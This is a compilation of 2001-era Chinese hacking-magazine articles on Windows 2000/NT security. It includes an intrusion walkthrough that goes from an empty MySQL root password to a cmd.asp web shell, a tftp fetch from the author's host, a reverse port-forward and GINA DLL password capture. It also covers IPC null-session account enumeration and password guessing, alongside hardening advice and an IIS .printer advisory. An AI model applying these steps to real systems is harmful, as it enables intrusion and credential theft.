好了！程序和 DLL 都准备好了。不过有一点要注意，通过终端服务用 admin 登录，然后直接运行这个程序还是不行的，CreateRemoteThread 会出错，返回的错误代码是 8，我大概知道是什么意思，但我无法解释。我们可以这样，启动服务器的 Telnet 服务，然后用 admin 账号 Telnet 上去，运行我们的程序，OK，去%SystemRoot%\pass.txt 看 eyas 的明文密码吧。至于如何卸载掉插入的 DLL 我就不多说了，在《Windows 核心编程》上有很详细的说明和完整的代码。编译好的 DLL 和编译好的程序都没有，也没有完整的代码，关键部分的代码都已经贴出来了，有兴趣的兄弟自己去玩吧。

由于水平有限，如有错误和不足之处，或你有什么更好的获取其他用户密码的方法，请不吝指教。Email: ey4s@21cn.com，HomePage: www.ey4s.org，谢谢。最后要谢谢 shotgun<shotgun@xici.net>一直以来对我的无私帮助，感谢他，感谢所有帮助、激励我的人！

## 完整清除
### 欢乐时光

文/魔亦神

在一个偶然的机会，碰到了被 Happytime 感染的服务器，见到了 Happytime 的威力，能力的确很强。下面我给大家介绍一下中招后怎样来清除。

第一步，删除不断执行的主要病毒脚本，c:\Documents and Settings\help.vbs，以及 help.hta 程序不断地打开这个 help.vbs 文件。清除后，我们就可以慢慢来了，首先重新启动机器，清除掉被占用的内存。重新启动之后速度恢复正常，操作起来也就快多了。

第二步，换掉桌面。桌面已经被改了，先换掉吧。

第三步，删除 HKEY_CURRENT_USER\Software 下 Help 项。

第四步，搜索 help.*，文件内部如果存在“ Rem I am sorry Happy time”字符串，则删除该文件。

第五步，现在已经差不多了，最后去金山毒霸网站下载专门清除 Happytime 的工具。

PS： 如果你是因为收邮件而中毒的话，删除收件箱中所有带有 Untitled.htm 附件的不明邮件。

## 从入侵角度看 Windows 2000 的安全性

首先我要跟大家说明的是：入侵别人主机是非法的。以下所述的只是对朋友所管辖服务器的合法远程渗透，这是我第一篇关于入侵的文章，也是最后一篇。

某天晚上在 IRC 跟朋友们闲聊的时候，一个老朋友说帮他看看他的服务器的安全性，然后给出 URL 是 abc.target.net。刚好那天是星期五，已经下班了，也比较闲，那就看看他们的服务器安全做得如何吧。

随后用 nmap 扫描了一下 abc.target.net，发现开的端口挺多的，看来没有安装防火墙或做 TCP/IP 过滤。从 IIS 版本判断是 Windows 2000 的服务器。IIS 默认的虚拟目录都删除掉了，并且诸如 idq 等映射都删除掉了，没什么好利用的。一看 3306 端口也开着，是 mysql 默认监听的端口，就用我的 mysql 客户端尝试连接了一下，mysql 内置账号 root 的密码竟然为空，后来就觉得没有多大意思，于是把目标转到 www.target.net，他们的主站。

OK，先用 nmap 扫描一下，扫描结果如下：

- 25/tcp open smtp
- 53/tcp open domain
- 80/tcp open http
- 110/tcp open pop-3
- 389/tcp open ldap
- 1002/tcp open unknown
- 3306/tcp open mysql

从 80 端口返回信息的显示 WEB Server 是 IIS5.0，那么操作系统自然是 Windows 2000 服务器了。从开放的端口来看，它要么是安装了防火墙，要么是做了 TCP/IP 过滤，呵呵，比 abc.target.net 有意思多了。从 25 和 110 端口返回的数据来看，他们用的邮件服务器是 IMail 6.04，没什么可利用的。IIS 上面网管做了安全配置，默认的虚拟目录和 ISAPI 映射也没有，这也没什么好利用的。只剩下最后一个突破口——3306 了，习惯性地用我的 mysql 客户端连接试试：

```cmd
C:\cmd>mysql -u root -h www.target.net
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 3038 to server version 3.23.21-beta
Type 'help;' or '\h' for help. Type '\c' to clear the buffer
mysql>
```

呵呵，不好意思，看来网管没有给 mysql 内置帐号 root 设置一个密码，是默认的空密码，那么我们就可以利用这个漏洞来做点什么了。如果是 MS-SQL 数据库的话就好办啦，直接可以用 xp_cmdshell 来运行系统命令，但是可惜的是 mysql 没有类似 MS-SQL 那样的扩展存储过程。

现在我们可以利用这个漏洞来做三件事情：

- 1. 搜索 mysql 数据库里面的内容，看能不能找出一些有用的敏感信息，我找了一会儿就不想找了，呵呵。
- 2. 以启动 mysql 服务账号的权限（通常都是 LOCAL_SYSTEM）读取服务器上的文件，当然前提是知道文件的物理路径。
- 3. 以启动 mysql 服务账号的权限往服务器上写文件，前提是这个文件是不存在的，就是说不能覆盖文件，只能新建。

如果我们知道 IIS 主目录的物理路径的话，我们就可以往上面写一个 ASP 上去，然后通过 ASP 来执行系统命令。怎么得到 IIS 目录的物理路径呢？天知道！

让我们先在 mysql 默认数据库 test 中建一个表 tmp，这个表只有一个字段 str，类型为 TEXT，如下：

```sql
mysql> use test; create table tmp ( str TEXT );
Database changed
Query OK, 0 rows affected (0.05 sec)
mysql>
```

然后凭着自己做系统管理员的直觉，开始猜测 IIS 主目录的物理路径：c:\inetpub\wwwroot、c:\www、c:\wwwroot、c:\inetpub\web、d:\web、d:\wwwroot，都不对，55555。大概猜测到第 10 次，我的 mysql 客户端回显信息如下：

```sql
mysql> load data infile "d:\www\gb\about\about.htm" into table tmp;
Query OK, 235 rows affected (0.05 sec)
Records: 235  Deleted: 0  Skipped: 0  Warnings: 0
mysql>
```

哈哈哈，猜中了，IIS 主目录的物理路径是 d:\www，因为上面的文件的虚拟路径是 http://www.target.net/gb/about/about.htm，看来我得到一个 guests 组权限的 shell 了，也许是 IUSR_COMPUTERNAME，也许是 IWAM_COMPUTERNAME，那要看他的 IIS 的设置了，默认是后者。

接下来我们就可以往 d:\www\gb\about 里面写一个 ASP 文件进去，然后通过 http://www.target.net/gb/about/cmd.asp 来执行系统命令了。然后在网上找来一个现成的 cmd.asp（懒得自己去写了）。cmd.asp 如下：


由于往 mysql 数据库中插入数据的时候会过滤特殊字符什么的，例如双引号之类的，特别麻烦。各位留意没有，上面的 ASP 语句中，都是两个双引号一起的，这样才能写进去，原来是一个双引号的。然后我在数据库中再建一个表：

```sql
mysql> use test; create table cmd ( str TEXT );
Database changed
Query OK, 0 rows affected (0.05 sec)
```

然后用如下语句，一句一句把上面的 ASP 写进去：

```sql
mysql> insert into cmd values ( "一行一行的 asp 代码" );
```

为什么不全部一起写进去呢？呵呵，换行后，一会儿导出的文件就会有特殊字符了，asp 就不能正常运行了，只能辛苦点一行一行写了。事后发现可以先写个 x.sql 文件来自动执行，具体见 bbs.nsfocus.com NT 版里 coolweis 贴的一篇帖子，有兴趣的自己去 search 吧。接着我们把 asp 文件从数据库中导出到服务器上：

```sql
mysql> select * from cmd into outfile "d:\www\gb\about\cmd.asp";
```

然后把我们刚才建的表都删除掉，毁尸灭迹：

```sql
mysql> use test; drop table tmp; drop table cmd;
```

OK，我们得到一个 shell 了，虽然权限不高，但毕竟已经向取得 admin 权限迈出一大步了。因为对数据库不熟悉，做这个 asp 文件可花了我不少时间哦。现在我们利用这个 shell 来收集系统信息，尝试取得 admin 权限。

- 1. 先看一下系统文件权限设置如何：

```text
c:\Everyone (OI)(CI)F
d:\xxx (OI)(CI)(DENY)(特殊访问)
DELETE
READ_CONTROL
WRITE_DAC
WRITE_OWNER
STANDARD_RIGHTS_REQUIRED
FILE_READ_DATA
```

- FILE_WRITE_DATA
- FILE_APPEND_DATA
- FILE_READ_EA
- FILE_WRITE_EA
- FILE_EXECUTE
- FILE_DELETE_CHILD
- FILE_READ_ATTRIBUTES
- FILE_WRITE_ATTRIBUTES
- Everyone (OI)(CI)F

看来我们现在就可以读写硬盘上的任何文件了。现在就可以改他的首页了，但这样做没意思，对不对？我们的目标是取得 admin 权限，呵呵。

- 然后搜索一下硬盘上都有些什么文件：

C:\Program Files\ 的目录下有两个比较有意思的文件：

2000-12-19 13:10 Serv-U
2001-01-20 22:43 绿色警戒

把 Serv-U 里面的用户和密码读出来看看后，没有什么用处，然后进入绿色警戒目录看看，呵呵，除了 log 外，什么都没有，呵呵。

- 再看看都有哪些用户：

Guest IUSR_SERVER_1 IUSR_SERVER_2 IWAM_SERVER_1 IWAM_SERVER_2 tanyi TsInternetUser

管理员有 tanyi 和 target\Domain Admins，看来这台机器是他们域中的一台服务器。开始本来想给 tanyi 下一个套，在他的启动目录里放一个程序，但后来看到这个帐号已经几个月没登陆了，就放弃了。

- 看看启动了哪些服务，没什么特殊的。

- 看看网络状况，这几个比较有意思：

TCP 0.0.0.0 21 0.0.0.0 0 LISTENING
TCP 0.0.0.0 119 0.0.0.0 0 LISTENING
TCP 192.168.1.3 3389 0.0.0.0 0 LISTENING

看来启动了终端服务，只绑在内网网卡上，而且外网网卡上做了 TCP/IP 过滤，那么我们就来

- 看看网卡设置信息：

Ethernet adapter 本地连接
Connection-specific DNS Suffix .
Description ............ Realtek RTL8139 (A) PCI Fast Ethernet Adapter
Physical Address........ 00-E0-4C-68-C4-B2
DHCP Enabled............ No
IP Address.............. 192.168.1.3
Subnet Mask ............. 255.255.255.0
Default Gateway .........
DNS Servers .............

Ethernet adapter 本地连接 2
Connection-specific DNS Suffix .

# 黑客防线精华本 2001

```
Description ............ Realtek RTL8139 (A) PCI Fast
Ethernet Adapter #2
Physical Address........ 00-E0-4C-68-B8-FC
DHCP Enabled........... No
IP Address............. xxx
Subnet Mask ............
Default Gateway ........
```

经过上面的一些步骤，对这台服务器的设置情况就有了一个大概的了解。如何取得 admin 权限？netdde pipeupadmin 呵呵，无法利用，没有可利用的可以登陆的用户。下套？等到什么时候，呵呵。这次入侵是在 2001/4，那时候好多漏洞都还没有公布呢。

让我们来看看这个系统都打了些什么补丁。怎么查看？呵呵，打了补丁后，信息都会存储在注册表中，查询注册表中的这个键值就行了：

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\hotfix`

这样的话，我们得上传一个 reg.exe（Resource Kit 中的命令行注册表操作工具）到服务器里面，我们才能操作它的注册表。开始我想先写一个 ftp 脚本，然后 `ftp -s cmd.txt` 让他到我的服务器来下载，但结果失败了，后来才想起他做了 TCP/IP 过滤，被动模式传不过去，主动模式也许可以。烦不了了，用基于 UDP 协议的 tftp 来传输文件吧。我先在我的服务器上安装了一个 Cisco TFTP Server，然后在目标机器上运行 `tftp -i www.ey4s.org GET reg.exe`，呵呵，传输过去咯。然后运行

```
REG QUERY "HKLM\Software\Microsoft\Windows NT\CurrentVersion\hotfix"
```

返回数据如下：

```
Listing of Software\Microsoft\Windows NT\CurrentVersion\hotfix
- Q147222 ==> 这个不知道是什么东西，好像默认 2K 机器上都有
- Q269862 ==> Microsoft IIS Unicode 解码目录遍历漏洞
- Q277873 ==> Microsoft IIS CGI 文件名检查漏洞
```

==>和后面的说明是我加上去的，不是注册表中的。看来管理员不太勤快啊，只安装了 SP1 和 SP2 的两个 HotFixs。

到了这一步，大家想到怎么取得 admin 权限了吗？你一定也想到了，他的机器开了 TermService 服务，但 Windows 2000 登陆验证可被绕过的漏洞没有安装补丁，此补丁为 Q270676_W2K_SP2_x86_CN.EXE。由此看来，管理员只是删除了帮助文件，而没有打补丁。用 `dir c:\winnt\help\win*` 验证一下，果然没有熟悉的输入法帮助文件。敌人没有输入法，我们帮他造，hoho~~ 别忘了我们可以往任何地方写文件哦。

嘻嘻，咱们也别高兴得太早了，别忘了他的机器做了 TCP/IP 过滤哦，我们是没有办法连接到他的 3389 端口的。不要着急，不要着急，让我们先来看看他的 TCP/IP 过滤的设置情况。怎么看呢？老办法，查看注册表里面的键值啦。用刚才的 reg.exe 查询

- 先运行这个

```
Listing of System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces
4B41CFFB-4A20-42F8-9087-A89FE71FD8F4
612A3142-DB85-4D4E-8028-81A9EB4D6A51
```

- reg QUERY

```
"HKLM\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\4B41CFFB-4A20-42F8-9087-A89FE71FD8F4"
Listing of System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\4B41CFFB-4A20-42F8-9087-A89FE71FD8F4
MULTI_SZ IPAddress
MULTI_SZ TCPAllowedPorts 25 53 80 110 3306
MULTI_SZ UDPAllowedPorts 0
MULTI_SZ RawIPAllowedProtocols 0
```

- reg QUERY

```
"HKLM\System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\612A3142-DB85-4D4E-8028-81A9EB4D6A51"
Listing of System\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\612A3142-DB85-4D4E-8028-81A9EB4D6A51
MULTI_SZ IPAddress 192.168.1.3
MULTI_SZ TCPAllowedPorts 0
MULTI_SZ UDPAllowedPorts 0
MULTI_SZ RawIPAllowedProtocols 0
```

篇幅关系，我过滤了一些输出。第二次查询的是外网网卡，我们可以得知只开放了 TCP 25、53、80、110、3306，UDP 全部，IP 协议全部。第三次查询的是内网网卡，没有任何限制。现在我们可以把输入法帮助文件上传到他的 C:\winnt\help 目录下去，然后如果能连接到他的 3389 端口的话，我们就可以得到 admin 权限了。问题的关键是外网网卡做了 TCP/IP 限制。55555，怎么办呢？如何突破？有办法！我们可以利用 socket 转发和反弹端口技术，照样可以连接到敌人的 TermService！

具体过程如下：

- 在我的服务器 www.eyas.org 上运行一个程序，监听 3389 端口等待我的 TermClient 去连接，监听 11111 端口等待 www.target.net 来连接。当然了，第 2 个端口可以随便选，第 1 个端口选其他的话，就要相应的修改 TermClient，比较麻烦。
- 在 www.target.net 运行另外一个程序，先连接到 www.eyas.org 11111，再连接到 192.168.1.3 3389（敌人服务器内网的 IP）。
- 我的 TermClient 连接到 www.eyas.org 3389，这样，数据通道就全部建立好了。接下来，两个程序就忠实地为我们转发数据了。

这里我不多解释了，知者自知。

当熟悉的登陆界面出现在我面前，我熟练地调出输入法，取得 admin 权限，呵呵，心里还有那么一点点成就感！

总结：发现 mysql 漏洞 ==> 凭直觉猜中 IIS 物理路径 ==> 写一个 cmd.asp 文件上去得到一个 shell ==> 利用系统配置错误取得 admin 权限。

接下来我在他内网搜索了一下，没发现什么好玩的东西。后来我把这台机器的 Gina DLL 给替换掉了。然后我通知我那朋友，我已经进去他的服务器了。他马上登录进去，这样我就得到他的 UserName 和 Password 了，是域管理员权限的哦。

后记：

- 后来我的朋友跟我说 mysql 内置账号 root 他已经设置了密码的，但我确实是用空密码连接进去了。这肯定是他设置得有问题了，不是他没做，是没做好。
- 我好像看某些文章说用 set 命令能看到 IIS 的根目录是什么，但经我试验，好像默认没有这个环境变量的吧？！果真有的话，就不用猜 IIS 的物理路径了，一切都变得简单。
- 这次入侵前后花了我四天时间，是最刺激的一次。星期五晚上得到一个 GUESTS 权限的 SHELL。周末两天和朋友出去玩，玩的时候不停地思考如何取得管理员权限。周日晚上半夜，忽然想起可以写程序通过“反弹端口”来连接终端服务，利用输入法漏洞，虽然帮助文件已经删除，但没安装补丁。周一回到公司把想法变成现实。

谨以此送给网管同行们，虽然是经验却也是教训。

## Windows NT 系统账号安全 攻防

小编寄语：和本期的另一篇文章“入侵还是检测？”有异曲同工之妙，都是攻击防范技术并重，这样网管朋友和黑客技术爱好者就不会说我们偏心了，当然也可能两边挨骂。（网管：你们这不就教唆别人攻击嘛！黑客：你把防范方法都刊登了，还怎么攻击？）呵呵，开个玩笑，还是那句话，知己知彼，百战不殆。

文/ey4s

Windows NT\2000\XP 默认安装后，都允许匿名用户建立 IPC 空连接 IPC NULL Session，并且允许匿名用户在此空连接的基础上枚举 SAM 数据库中的用户名。注：以下所说的“NT 系统”，如果没有特别说明的话，指的都是上述的几种系统。其实利用此空连接能做的不仅仅是枚举用户名，还可以枚举共享，收集系统信息等等。默认安装的系统，都存在很多安全隐患，而上述的漏洞（也许这不能称为漏洞，只能算是个安全隐患吧）就可以让攻击者轻松地收集到足够多的信息，其中最危险的莫过于被攻击者拿到用户列表。拿到用户列表，要攻入此系统，剩下的只是时间和运气了。当然，如果管理员足够勤快并且用户对复杂的密码策略不感到厌烦的话，拿到用户列表也没有多大意义。事实上，很多 NT 系统并没有启用密码策略，而且很多用户为了方便，把密码设置为空或与用户名相同等等，这确实是方便了自己，但同时也方便了别人，不是吗？

### 攻方：如何枚举 SAM 数据库中的用户名

OK！我们现在先具体看看如何在建立 IPC NULL Session 后枚举 SAM 数据库中的用户名。首先我们来看看如何与目标服务器建立空连接。在命令行下可以这样：

```
C:\>net use \\ip\ipc$ "" /user ""
The command completed successfully.
```

自己写程序的话，调用一个 API `WNetAddConnection2` 就可以实现了。函数原型如下：

```
DWORD WNetAddConnection2(
  LPNETRESOURCE lpNetResource, // connection details
  LPCTSTR lpPassword,          // password
  LPCTSTR lpUsername,          // user name
  DWORD dwFlags                // connection options
);
```

第一个参数指向 NETRESOURCE 结构，该结构指定了要连接的具体情况，有关网络资源、本地设备和网络资源供应商的信息。调用这个 API 之前必须对此结构的成员进行初始化。第二个参数是用户密码。第三个参数是用户名。第四个参数是一套位标志，这些标志指定了连接选项，关于此标志的更多信息请查阅 MSDN。注意：如果 lpPassword 为 NULL，那么函数使用与 lpUsername 指定的用户有关的当前的缺省口令。如果 lpPassword 指向一个空字符串，那么函数不使用口令。以下是我封装的一个简单的建立 IPC 连接的函数：

```
BOOL EstablishIPC(char *RemoteName, char *User, char *Pass)
{
    NETRESOURCE nr;
    char RN[128] = "";
    strcat(RN, RemoteName);
    strcat(RN, "\\ipc$");
    nr.dwType = RESOURCETYPE_ANY;
    nr.lpLocalName = NULL;
    nr.lpRemoteName = RN;
    nr.lpProvider = NULL;
    if(WNetAddConnection2(&nr, Pass, User, FALSE) == NO_ERROR)
        return TRUE;
    else
        return FALSE;
}
```

建立了 IPC 连接后，有几个 API 都可以直接用来枚举系统账号，我们一个个来看吧。第一个可利用的 API 是 `NetQueryDisplayInformation`，这个 API 能返回用户、计算机、或者全组的账号信息。函数原型如下：

```
NET_API_STATUS NetQueryDisplayInformation(
  LPCWSTR ServerName,
  DWORD Level,
  DWORD Index,
  DWORD EntriesRequested,
  DWORD PreferredMaximumLength,
  LPDWORD ReturnedEntryCount,
  PVOID * SortedBuffer
);
```

第一个参数 ServerName 指向以 NULL 结尾的 Unicode 字符串，该字符串包含该函数执行时所在的远程服务器。如果指针为 NULL 或者为空字符串，那么它指定的是本地计算机。第二个参数 Level 指定提供信息的级别，有三种级别可选用，具体请查阅 MSDN。第三个参数 Index 指定为所检索信息第一项的索引。第四个参数 EntriesRequested 指定所获信息的最大的项数。第五个参数 PreferredMaximumLength 指定由参数 SortedBuffer 所返回缓冲区的首选最大尺寸，以 8 字节为单位，该缓冲区由系统分配。第六个参数 ReturnedEntryCount 指向 32 位指针变量，该变量指定了由参数 SortedBuffer 所返回缓冲区的项数。第七个参数 SortedBuffer 指向变量的指针，该变量为一个指向缓冲区的指针，该缓冲区是由系统所分配的，包含所需信息的有序列表。以下是调用此函数的代码片段：


OK，我们来看第二个可以利用的 API `NetGroupGetUsers`。此函数原型如下：

```
NET_API_STATUS NetGroupGetUsers(
  LPCWSTR servername,
  LPCWSTR groupname,
  DWORD level,
  LPBYTE * bufptr,
  DWORD prefmaxlen,
  LPDWORD entriesread,
  LPDWORD totalentries,
  PDWORD_PTR ResumeHandle
);
```

第二个参数 groupname 指向 unicode 字符串的指针，该字符串包含了所检索信息的全局组名。第三个参数 level 指向参数 bufptr 所指信息的信息级别，只有一种级别 0 可用，具体请查阅 MSDN。第四个参数 bufptr 指向返回信息结构的指针，应该调用 NetApiBufferFree 释放。第五个参数 prefmaxlen 是所返回数据的首选最大程度，以 8 位字节为单位。第六个参数 entriesread 指向 DWORD 指针，它包含了实际的枚举项数。第七个参数 totalentries 也是指向 DWORD 的指针，它包含了从当前可恢复位置开始的可枚举的项数。第八个参数 ResumeHandle 还是指向 DWORD 的指针，它包含了一个恢复句柄，该句柄用于继续进行已存在的 user 组查询。以下是调用此函数的代码片段：


组名为 None 指的是枚举所有用户。

嗯！现在已经有两个 API 可以用来枚举系统账号了，我们再来看另外一个 API `NetUserEnum`。此函数的原型如下：

```
NET_API_STATUS NetUserEnum(
```LPCWSTR servername
DWORD level
DWORD filter
LPBYTE * bufptr
DWORD prefmaxlen
LPDWORD entriesread
LPDWORD totalentries
LPDWORD resume_handle

第二个参数 level 有9种可用级别，在级别0和10上不需要特定的组身份，具体请查阅MSDN。第三个参数 filter 指定要枚举账号类型的筛选程序，若值为 0，表示枚举所有账号类型，允许的值请参阅 MSDN。以下是调用此函数的代码片段：


好了，到现在为止，我们知道至少有三个 API 可以利用来枚举 NT 系统账号了。这三个 API 在 MSDN 中都有例子，以上代码片段几乎都是从 MSDN 上面的例子中抽取而来。现在网上也有很多基于此原理写成的枚举系统账号的程序，象 xfocus.org 的 x-scan，bingle 的 enum+ 等，当然最著名的也许就是 LetMeIn 了。

## 守方 防范方法面面观

既然允许匿名用户建立 IPC NULL Session 来枚举 SAM 数据库中的账号这么危险，那么如何来防范呢？其实很简单，很多人都知道的，简单地修改一下注册表就可以了。把注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\RestrictAnonymous` 的值设置为 1 就行了，默认值是 0。或者在本地安全设置中设置也可以，具体路径是：本地安全策略 -> 本地策略 -> 安全选项，把“对匿名连接的额外限制”选项的值从“无。依赖于默认许可权限”设置为“不允许枚举 SAM 账号和共享”就可以了。这两者效果是一样的，本地安全设置只是一个修改注册表的友好界面而已。

上述防范方法也是众多人士推荐并且接受的一种方法，事实上，此方法确实是可以防范绝大多数攻击，让匿名用户再也不能枚举 SAM 中的账号，让 LetMeIn、enum+、xscan 等失效。说到这里，我要说明一点：很多人对“禁止匿名用户建立 IPC 空连接”和“禁止匿名用户利用建立的 IPC 空连接来枚举 SAM 账号”这两个概念分不清楚，混为一谈，事实上这两者是有很大的区别的。注意：上述防范方法只是禁止匿名用户利用建立的 IPC NULL Session 来枚举账号和取得其他系统信息，而并没有禁止匿名用户跟你建立 IPC NULL Session，但是，很多人就此认为服务器已经禁止匿名用户建立 IPC 空连接了。

OK，经过上述安全配置，我们还是能跟目标建立 IPC NULL Session，虽然已经不能枚举我们感兴趣的系统账号和其他系统信息。但是，我们仍然可以利用此 IPC NULL Session 来做点什么，不是吗？在前段时间对国家某部门的授权入侵检测过程中，他们的主域控制器 NT 4.0 就是做了上述安全配置，虽然能跟它建立 IPC NULL Session，但没有权限枚举 SAM 中的账号，但是，我用自己写的一个小程序仍然取得了他们的用户列表，有 300 多位用户哦。然后再写一个小程序来猜测简单密码，最后得到了 20 几位用户的 Password，显然系统管理员没有启用密码策略。嗯，好像 NT 4.0 中的安全设置里默认是没有启动密码策略的选项的，是不是？NT 4 我不熟悉，不好意思了 ~_*。

OK，让我们来看看在能建立 IPC NULL Session 但没权限枚举账号的情况下如何取得用户列表。

这段开始之前最好了解 SID 是什么。SID 是标识用户、组和计算机帐户的惟一的号码。在第一次创建该帐户时，将给网络上的每一个帐户发布一个惟一的 SID。Windows 2000 中的内部进程将引用帐户的 SID 而不是帐户的用户或组名。如果创建帐户，再删除帐户，然后使用相同的用户名创建另一个帐户，则新帐户将不具有授权给前一个帐户的权力或权限，原因是该帐户具有不同的 SID 号。安全标识符也被称为安全 ID 或 SID。

```
C:\>whoami /user /SID
User = "EY4S\ey4s" S-1-5-21-1060284298-854245398-839522115-500
```

看见没有，后面那串字符串就是 SID 了。同一台机器上不同的账号 SID 区别就是最后面那段不同。我机器上的账号 guest 和 ey4s 的 SID 分别是

```
C:\>getsid \\ey4s ey4s \\ey4s guest
The SID for account EY4S\ey4s does not match account EY4S\guest
The SID for account EY4S\ey4s is S-1-5-21-1060284298-854245398-839522115-1015
The SID for account EY4S\guest is S-1-5-21-1060284298-854245398-839522115-501
```

在与服务器建立 IPC NULL Session 后，可以通过 `LookupAccountName` 这个 API 来取得已知用户名的 SID，如 guest 账号的 SID。guest 账号是系统内置账号，不能删除的，当然了，可以改名，但很少管理员会把 guest 账号改名的。可以通过用户名取得 SID，那么当然也就可以通过 SID 来获取用户名了，这个 API 是 `LookupAccountSid`。在我们取得 guest 账号或者其他已知账号，如 `IUSR_ComputerName` 的 SID 后，我们就可以组合 SID 来穷举系统账号。因为系统账号的 SID 都是有规律的。不信？OK！我们来看看。

```
C:\>net user user1 user1 /add
The command completed successfully.
C:\>net user user2 user2 /add
The command completed successfully.
C:\>getsid \\ey4s user1 \\ey4s user2
The SID for account EY4S\user1 does not match account EY4S\user2
The SID for account EY4S\user1 is S-1-5-21-1060284298-854245398-839522115-1033
The SID for account EY4S\user2 is S-1-5-21-1060284298-854245398-839522115-1034
```

怎么样？相信了吧 :) 现在我们就来看看如何编程实现组合 SID 穷举系统账号。

先取得已知账号的 SID，如 guest：


OK，如果顺利的话，我们已经取得了 guest 账号的 SID。我们知道，系统内置的管理员账号的 SID 最后面那段是为 500 的，所以我们先组合出系统内置管理员账号的 SID，先来看看这个账号的用户名是什么，如果没有更改的话，默认是 administrator。


接着我们就可以组合 SID 来穷举系统账号了。


OK！只要能跟目标服务器建立 IPC NULL Session，虽然不能枚举账号，但我们仍然可以利用上述程序穷举取得系统账号。以上程序代码是从网上找来经过我少许修改的，在网上我看到过不少版本，有 Delphi 版、C 语言版等。好了，取得目标服务器账号列表的几种方法都说完了，下面我们来简单地说说怎么来猜测取得的账号的密码吧。

因为 IPC$ 是点对点的连接，系统限制一个 IP 同时只能与它建立一个连接，所以通过 IPC 多线程猜测用户密码是不可能的，只能单线程慢慢猜了。小榕的流光采取的办法是同时猜测大范围主机的账号密码，这样在大范围的扫描中显得还是挺快的，但对于某一特定的主机就没有办法了，悠着点来吧。猜测密码很简单，把用户名和密码读到内存中，然后用上面我封装的函数 `EstablishIPC` 不停地试就行了。关于这个，我请教 shotgun 的时候，他跟我说，在 LAN 中通过 IPC 多线程跑用户密码也是可能的。在本机网卡上绑定 N 个 IP，用 RAW SOCKET 编程来模拟 N 台机器同时跑。Shotgun 说这样就比较无聊了，呵呵。还有一个办法，如果目标服务器开了 MS FTP Service 的话，那么我们就可以通过 FTP 来多线程跑用户的密码了。BTW，暴力破解密码是比较无聊的事情。

好啦，攻击方面的说完啦，现在来谈谈如何堵住上述安全隐患吧。其实很简单的啦，把注册表 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\RestrictAnonymous` 的值设置为 2 就行了，或者在本地安全设置中设置也可以，具体路径是：本地安全策略 -> 本地策略 -> 安全选项，把“对匿名连接的额外限制”选项的值设置为“没有显式匿名权限就无法访问”就可以了。这样，匿名用户就不能与你建立 IPC NULL Session 了，就是说除非攻击者已经有了可用账号，要不然它就不可能从 IPC Session 中收集到系统的任何信息，也不会影响正常用户跟服务器建立 IPC Session。

最后还是建议系统管理员启用密码安全策略，强制用户设置的密码足够复杂并且定期更换密码，虽然这让用户比较讨厌。这样的话，即使被攻击者取得了系统账号列表，他也无法暴力猜测到用户的密码。还有一点建议就是多关注厂商的安全公告，勤打补丁，做好服务器的权限设置。

记得某位前辈说过，系统管理员平时多付出 1% 的努力，就可以防止住 99% 的攻击。很经典，不是吗？好了，终于写完啦，由于水平有限，错误和不足之处请各位多多包涵并欢迎来信 Email ey4s@21cn.com HomePage www.ey4s.org 指教，谢谢。

## IIS ISAPI .Printer 远程溢出攻击

任何操作系统的默认配置都是不安全的，微软的 IIS 5.0 默认配置也不例外，众所周知。比如 IIS 5.0 默认配置里面有个 `.printer` 映射，缺省情况下该映射存在，该映射对应的 `Msw3prt.dll` 缺少足够的缓冲区边界检查，导致可能被攻击者远程溢出，允许执行任意代码。

本文内容有问有答，解决了读者大部分的疑难问题。

本文还提供了国内的这方面程序：包括小榕的 IIS5Exploit，Sunx 的 iis5hack，Isno 的 Cniis、iisx 等 Exploit。还有 Eyas 的 Cgicheck 扫描程序。还包括其他一些程序如 Perl 写的 Exploit 等等。并且提供了下载地址，方便读者测试。

文 / badboy

## MS01-023 漏洞公告

受影响的系统：
- 漏洞只存在运行 IIS 5.0 的 Win2000 服务器
- Microsoft Windows 2000 Server
- Microsoft Windows 2000 Datacenter Server
- Microsoft Windows 2000 Advanced Server

微软 Win 2000 IIS 5 的打印 ISAPI 扩展接口建立了 `.printer` 扩展名到 `Msw3prt.dll` 的映射关系，缺省情况下该映射存在。当远程用户提交对 `.printer` 的 URL 请求时，IIS 5 调用 `Msw3prt.dll` 解释该请求。由于 `Msw3prt.dll` 缺乏足够的缓冲区边界检查，远程用户可以提交一个精心构造的针对 `.printer` 的 URL 请求，其“Host:”域包含大约 420 字节的数据，此时在 `Msw3prt.dll` 中发生典型的缓冲区溢出，潜在允许执行任意代码。溢出发生后，Web 服务停止响应，Win2000 可以检查到 Web 服务停止响应，从而自动重启它，因此系统管理员很难意识到发生过攻击。

注意：这个漏洞非常危险，因为它仅仅需要 Win2000 打开 80 端口 HTTP 或者 443 端口 HTTPS，微软公司强烈要求在未打补丁之前一定要删除 ISAPI 网络打印的映射。

## IIS ISAPI .Printer 远程溢出相关问答

### 1. 漏洞的活动范围是什么？

这是一个缓存溢出漏洞，这漏洞比以往的普通溢出存在更大的危害，主要有两方面的原因：
- 1. 在缺省安全的情况下，该漏洞可以被来自网络的入侵者利用。
- 2. 入侵者可以完全获得和控制存在该漏洞的网站服务器。

入侵者一旦溢出成功，他可以做他想做的事情，包括安装和运行程序、重新配置服务、增加改变或者删除文件和网页的内容等等。这是一个非常危险的漏洞，微软公司忠告所有的 IIS 5 网站系统管理员立即安装补丁，IIS 4 的系统不存在这个漏洞。

### 2. 漏洞的起因是什么？

Win2000 在网络打印 ISAPI 扩展上缺少足够的缓冲区检查，当一个入侵者发出特殊的请求服务时产生缓存溢出，可以让入侵者在本地系统执行任意代码。

### 3. 什么是 ISAPI 扩展？

ISAPI（Internet Services Application Programming Interface，因特网服务应用编程界面）是一种能够使网络开发商通过编写为网络服务器提供新的服务的自定义命令码来扩展网络服务器功能的技术。该自定义命令码既能在 ISAPI 过滤器中完成（当新的功能提供一种较低水平的服务时），也能在 ISAPI 扩展项中完成（当新的功能提供一种较高水平服务时）。现在，被溢出的代码就是这 ISAPI 扩展。

### 4. ISAPI 扩展的问题是什么？

